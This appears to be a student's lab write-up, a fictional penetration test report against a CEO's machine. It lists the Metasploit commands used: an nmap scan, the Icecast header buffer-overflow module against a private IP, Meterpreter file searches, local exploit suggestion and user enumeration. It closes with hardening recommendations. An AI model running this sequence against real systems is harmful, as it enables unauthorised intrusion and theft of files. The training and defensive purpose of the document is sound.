






## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:**
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: 
   - nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: 
   - searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
      
   - Found recipe.txt: search -f *recipe*
      

5. Used Meterpreter’s local exploit searcher to determine additional exploits: run post/multi/recon/local_exploit_suggester
  - Discovered the following exploits:
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_relection
      

6. Enumerated all logged on users: run post/windows/gather/enum_logged_on_users

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
     
     

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
